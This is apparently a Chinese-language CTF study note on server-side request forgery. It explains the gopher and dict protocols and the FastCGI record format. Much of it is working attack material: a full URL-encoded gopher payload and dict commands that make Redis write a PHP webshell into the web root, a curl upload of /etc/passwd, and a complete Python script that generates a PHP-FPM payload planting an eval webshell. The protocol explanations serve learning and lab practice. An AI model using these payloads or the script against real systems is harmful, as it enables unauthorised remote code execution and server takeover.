


[TOC]

<u>*awctf --- i_am_eeeeeshili*</u>

<u>*buuctf --- [De1CTF 2019]SSRF Me*</u>

### curl命令行工具

GET请求

```
curl http://127.0.0.1
```

POST请求

```
curl -x POST -d "a=1" http://127.
```

携带Cookie

```
curl -cookie "Cookie=xxx" http://xxx
```

上传文件

```
curl -F "file=@/etc/passwd" http://127.0.0.1
```

### SSRF中主要的协议

1. file协议

   file协议主要用于访问本地计算机中的文件，命令格式为：

   ```
   file://文件绝对路径
   ```

   

2. Gopher协议

   https://github.com/tarunkant/Gopherus

   [Gopher协议_0ak1ey的博客-CSDN博客](https://blog.csdn.net/qq_43665434/article/details/115255263)

   ```
   URL:gopher://<host>:<port>/<gopher-path>_后接TCP数据流
   
   gopher的默认端口是70
   如果发起post请求，回车换行需要使用%0d%0a，如果多个参数，参数之间的&也需要进行URL编码
   ```

3. dict协议

   词典网络协议

   [SSRF漏洞中使用到的其他协议_0ak1ey的博客-CSDN博客](https://blog.csdn.net/qq_43665434/article/details/115434528)

   ```
   dict://ip:port/后接TCP/IP数据量
   
   向服务器的端口请求为【命令:参数】，并在末尾自动补上\r\n(CRLF)，为漏洞利用增加了便利
   dict协议执行命令要一条一条执行
   ```

### SSRF打redis

<u>*CTFhub --- web-ssrf-redis*</u>

#### Gopher


```c
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0Agopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

payload需要再进行一次url编码




#### dict


>```
>str="<?php system($_GET[\"a\"])?>";
>len=str.length;
>arr=[];
>for(var i=0;i<len;i++){
>	arr.push(str.charCodeAt(i).toString(16));
>}
>console.log("\\x"+arr.join("\\x"));
>```

```c
更改rdb文件的目录至网站目录下
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html

将rdb文件名dbfilename改为webshell的名字
url=dict://127.0.0.1:6379/config:set:dbfilename:webshell.php

写入webshell，有些时候可能\x需要换成 \\x进行转义
url=dict://127.0.0.1:6379/set:webshell:"\x3c\x3f\x70\x68\x70\x20\x73\x79\x73\x74\x65\x6d\x28\x24\x5f\x47\x45\x54\x5b\x22\x63\x6d\x64\x22\x5d\x29\x3f\x3e"

进行备份
dict://127.0.0.1:6379/save更改rdb文件的目录至网站目录下
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html
```


### SSRF打FastCGI

>`auto_prepend_file`是告诉PHP，在执行目标文件之前，先包含`auto_prepend_file`中指定的文件；`auto_append_file`是告诉PHP，在执行完成目标文件后，包含`auto_append_file`指向的文件。

<u>*CTFhub --- web-ssrf-FastCGI*</u>

[NCTF2019\]phar matches everything（自动化脚本获取flag）_buuctf phar_Ho1aAs的博客-CSDN博客](https://blog.csdn.net/Xxy605/article/details/120161001)

[fastCGI](https://www.cnblogs.com/tssc/p/10255590.html)

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写_mysteryflower的博客-CSDN博客](https://blog.csdn.net/mysteryflower/article/details/94386461)

[ fastcgi协议分析与实例_Shreck66的博客-CSDN博客](https://blog.csdn.net/shreck66/article/details/50355729)

[利用SSRF攻击内网FastCGI协议 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/263342.html)


https://blog.csdn.net/mysteryflower/article/details/94386461

Fastcgi其实是一个通信协议，和HTTP协议一样，都是进行数据交换的一个通道。

类比HTTP协议来说，fastcgi协议则是服务器中间件和某个语言后端进行数据交换的协议。Fastcgi协议由多个record组成，record也有header和body一说，服务器中间件将这二者按照fastcgi的规则封装好发送给语言后端，语言后端解码以后拿到具体数据，进行指定操作，并将结果再按照该协议封装好后返回给服务器中间件。

#### 消息头(请求头)

和HTTP头不同，record的头固定8个字节，body是由头中的contentLength指定，其结构如下：

```c
typedef struct {
    /* Header */
    unsigned char version; // 版本
    unsigned char type; // 本次record的类型
    unsigned char requestIdB1; // 本次record对应的请求id
    unsigned char requestIdB0;
    unsigned char contentLengthB1; // body体的大小
    unsigned char contentLengthB0;
    unsigned char paddingLength; // 额外块大小
    unsigned char reserved; 

    /* Body */
    unsigned char contentData[contentLength];
    unsigned char paddingData[paddingLength];
} FCGI_Record;
```

头由8个uchar类型的变量组成，每个变量1字节。其中，requestId占两个字节，一个唯一的标志id，以避免多个请求之间的影响；contentLength占两个字节，表示body的大小。

语言端解析了fastcgi头以后，拿到contentLength，然后再在TCP流里读取大小等于contentLength的数据，这就是body体。

Body后面还有一段额外的数据（Padding），其长度由头中的paddingLength指定，起保留作用。不需要该Padding的时候，将其长度设置为0即可。

可见，一个fastcgi record结构最大支持的body大小是2^16，也就是65536字节。

type就是指定该record的作用。因为fastcgi一个record的大小是有限的，作用也是单一的，所以我们需要在一个TCP流里传输多个record。通过type来标志每个record的作用，用requestId作为同一次请求的id。

也就是说，每次请求，会有多个record，他们的requestId是相同的。

借用[该文章](https://blog.csdn.net/shreck66/article/details/50355729)中的一个表格，列出最主要的几种type：




下图为php-fpm给web服务器传输的一个具体消息的消息头(8字节)内容

1. 序列0(对应version字段)的数值为01，代表php-fpm的版本信息
2. 序列1(对应type字段)的数值为03，根据上面对type值含义的解释，可以知道这个消息将标志这此次交互的结束
3. 序列2,3 00,01说明此次交互的请求ID为01
4. 序列4,5 00,08标示这在序列7之后的消息体的长度为8
5. 序列6标示填充字节为0，及本身消息体以是8的字节了
6. 序列7将消息的保留字节设为0

#### 消息体(请求体)

##### type为1

读者对照上面介绍的type值的含义可知，此类消息为交互刚开始所发的第一个消息，其消息体结构c定义如下

```c
typedef struct 
{
    unsigned char roleB1;       //web服务器所期望php-fpm扮演的角色，具体取值下面有
    unsigned char roleB0;
    unsigned char flags;        //确定php-fpm处理完一次请求之后是否关闭
    unsigned char reserved[5];  //保留字段
}FCGI_BeginRequestBody;
```

根据上述可知type值为1的消息(标识开始请求)的消息的消息体为固定大小8字节，其中各个字段的具体含义如下

- role:此字段占2个字节，用来说明我们对php-fpm发起请求时，我们想让php-fpm为我们扮演什么角色(做什么，或理解为杂么做)，其常见的3个取值如下:
- flags:字段确定是否与php-fpm建立长连接，为1长连接，为0则在每次请求处理结束之后关闭连接
- reserved:保留字段

##### type为3

type值为3表示结束消息，其消息体的c定义如下

```c
typedef struct 
{
    unsigned char appStatusB3;      //结束状态，0为正常
    unsigned char appStatusB2;
    unsigned char appStatusB1;
    unsigned char appStatusB0;
    unsigned char protocolStatus;   //协议状态
    unsigned char reserved[3];
}FCGI_EndRequestBody;
```

同样我们可以看出结束消息体也为固定8字节大小，其各字段的具体含义如下：

- appStatus:此字段共4个字节，用来表示结束状态，0为正常结束
- protocolStatus:为协议所处的状态，0为正常状态
- reserved:为保留字节

##### type为4

此值表示此消息体为传递PARAMS(环境参数)，环境参数其实就是name-value对，我们可以使用自己定义的name-value传给php-fpm或者传递php-fpm已有的name-value对，以下为我们后面实例将会使用到的php-fpm以有的name-value对如下


消息体的格式如下

```c
typedef struct {
     unsigned char nameLengthB3; /* nameLengthB0 >> 7 == 0 */
     unsigned char nameLengthB2;
     unsigned char nameLengthB1;
     unsigned char nameLengthB0;
     unsigned char valueLengthB3; /* nameLengthB0 >> 7 == 0 */
     unsigned char valueLengthB2;
     unsigned char valueLengthB1;
     unsigned char valueLengthB0;
     unsigned char nameData[(B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
     unsigned char valueData[valueLength
     ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValue;
```

以看出消息体前8个字节为固定的，其字段具体含义为

- nameLength:此字段占用4字节，用来说明name的长度
- valueLength:此字段为4个字节，用来说明value的长度

前8个字节之后紧跟的为nameLength长度的name值，接着是valueLength长度的value值

```c
typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair11;
 
typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair14;
 
typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair41;
 
typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair44;
```

这其实是4个结构，至于用哪个结构，有如下规则：

1. key、value均小于128字节，用FCGI_NameValuePair11
2. key大于128字节，value小于128字节，用FCGI_NameValuePair41
3. key小于128字节，value大于128字节，用FCGI_NameValuePair14
4. key、value均大于128字节，用FCGI_NameValuePair44

##### type值为5,6,7

当消息为输入，输出，错误时，它的消息头之后便直接跟具体数据

#### 完整消息record


#### PHP-FPM（FastCGI进程管理器）

FPM其实是一个fastcgi协议解析器，Nginx等服务器中间件将用户请求按照fastcgi的规则打包好通过TCP传给谁？其实就是传给FPM。

FPM按照fastcgi的协议将TCP流解析成真正的数据。

举个例子，用户访问http://127.0.0.1/index.php?a=1&b=2，如果web目录是/var/www/html，那么Nginx会将这个请求变成如下key-value对：

```c
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

这个数组其实就是PHP中$\_SERVER数组的一部分，也就是PHP里的环境变量。但环境变量的作用不仅是填充$\_SERVER数组，也是告诉fpm：“我要执行哪个PHP文件”。

PHP-FPM拿到fastcgi的数据包后，进行解析，得到上述这些环境变量。然后，执行SCRIPT_FILENAME的值指向的PHP文件，也就是/var/www/html/index.php。

##### EXP

```python
import socket
import random
import argparse
import sys
from io import BytesIO
from urllib.parse import quote

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])

def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)

def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')

def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s


class FastCGIClient:
    """A Fast-CGI Client for Python"""

    # private
    __FCGI_VERSION = 1

    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3

    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
    __FCGI_TYPE_GETVALUES_RESULT = 10
    __FCGI_TYPE_UNKOWNTYPE = 11

    __FCGI_HEADER_SIZE = 8

    # request state
    FCGI_STATE_SEND = 1
    FCGI_STATE_ERROR = 2
    FCGI_STATE_SUCCESS = 3

    def __init__(self, host, port, timeout, keepalive):
        self.host = host
        self.port = port
        self.timeout = timeout
        if keepalive:
            self.keepalive = 1
        else:
            self.keepalive = 0
        self.sock = None
        self.requests = dict()

    def __connect(self):
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.settimeout(self.timeout)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        # if self.keepalive:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 1)
        # else:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 0)
        try:
            self.sock.connect((self.host, int(self.port)))
        except socket.error as msg:
            self.sock.close()
            self.sock = None
            print(repr(msg))
            return False
        return True

    def __encodeFastCGIRecord(self, fcgi_type, content, requestid):
        length = len(content)
        buf = bchr(FastCGIClient.__FCGI_VERSION) \
               + bchr(fcgi_type) \
               + bchr((requestid >> 8) & 0xFF) \
               + bchr(requestid & 0xFF) \
               + bchr((length >> 8) & 0xFF) \
               + bchr(length & 0xFF) \
               + bchr(0) \
               + bchr(0) \
               + content
        return buf

    def __encodeNameValueParams(self, name, value):
        nLen = len(name)
        vLen = len(value)
        record = b''
        if nLen < 128:
            record += bchr(nLen)
        else:
            record += bchr((nLen >> 24) | 0x80) \
                      + bchr((nLen >> 16) & 0xFF) \
                      + bchr((nLen >> 8) & 0xFF) \
                      + bchr(nLen & 0xFF)
        if vLen < 128:
            record += bchr(vLen)
        else:
            record += bchr((vLen >> 24) | 0x80) \
                      + bchr((vLen >> 16) & 0xFF) \
                      + bchr((vLen >> 8) & 0xFF) \
                      + bchr(vLen & 0xFF)
        return record + name + value

    def __decodeFastCGIHeader(self, stream):
        header = dict()
        header['version'] = bord(stream[0])
        header['type'] = bord(stream[1])
        header['requestId'] = (bord(stream[2]) << 8) + bord(stream[3])
        header['contentLength'] = (bord(stream[4]) << 8) + bord(stream[5])
        header['paddingLength'] = bord(stream[6])
        header['reserved'] = bord(stream[7])
        return header

    def __decodeFastCGIRecord(self, buffer):
        header = buffer.read(int(self.__FCGI_HEADER_SIZE))

        if not header:
            return False
        else:
            record = self.__decodeFastCGIHeader(header)
            record['content'] = b''
            
            if 'contentLength' in record.keys():
                contentLength = int(record['contentLength'])
                record['content'] += buffer.read(contentLength)
            if 'paddingLength' in record.keys():
                skiped = buffer.read(int(record['paddingLength']))
            return record

    def request(self, nameValuePairs={}, post=''):
        # if not self.__connect():
        #     print('connect failure! please check your fasctcgi-server !!')
        #     return

        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)

        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)

        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)

        print(f"gopher://{self.host}:{self.port}/_"+quote(quote(request)))
        # self.sock.send(request)
        # self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        # self.requests[requestId]['response'] = b''
        # return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    # parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    # parser.add_argument('host', help='Target host, such as 127.0.0.1')
    # parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    # parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    # parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    # args = parser.parse_args()

    client = FastCGIClient("127.0.0.1", 9000, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = "/var/www/html/index.php"
    content = '''<?php file_put_contents("/var/www/html/shell.php","<?php eval(\$_POST[1]);?>");?> '''
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    # print(force_text(response))
```